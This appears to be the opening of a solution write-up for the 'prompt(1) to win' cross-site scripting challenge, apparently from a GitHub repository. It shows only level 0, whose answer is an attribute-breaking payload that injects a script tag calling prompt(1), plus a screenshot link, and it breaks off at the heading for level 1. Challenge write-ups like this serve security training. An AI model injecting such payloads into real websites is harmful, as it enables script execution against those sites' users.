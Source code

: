 # prompt(1) to win
### 0 

```html
"><script>prompt(1)</script>

```
<img width="500" src="https://user-images.githubusercontent.com/68285613/147693465-ee262fcc-5b5f-4933-9d9a-e8ab593cf366.png">

### 1
